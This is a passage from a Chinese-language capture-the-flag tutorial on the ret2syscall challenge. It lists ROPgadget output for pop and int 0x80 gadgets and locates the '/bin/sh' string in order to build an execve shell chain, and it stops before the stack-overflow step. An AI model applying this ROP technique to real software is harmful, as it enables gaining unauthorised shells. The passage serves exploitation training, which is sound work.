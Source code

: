 ```plain
0x0804846e : pop esi ; pop edi ; ret
0x08049a1a : pop esi ; pop edi ; ret 4
0x08049a95 : pop esi ; ret
0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
```

我们要先获得eax的gadget

```plain
0x080bb196 : pop eax ; ret
```

发现上述gadget符合我们的要求，以ret为结尾

再找edx存储我们的数据，再找ebx,ecx赋值为0

```plain
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
```

这里找了一个比较符合的gadget,这里其实就是分别执行

```plain
pop edx
pop ecx
pop ebx
```

[![](assets/1701612384-c713206425e7f0977544ba34685ea53e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629203255-129f691a-1679-1.png)

再找之前我们已知的后门参数/bin/sh的地址,利用IDA

```plain
.rodata:080BE408 aBinSh          db '/bin/sh',0          ; DATA XREF: .data:shell↓o
```

也可以利用ROPgadget

```plain
ROPgadget --binary ret2syscall --string '/bin/sh'
```

最后找int 80

```plain
ROPgadget --binary ret2syscall --only "int"
```

```plain
0x08049421 : int 0x80
```

这里其实已经具备ROP部分了，现在来看栈溢出
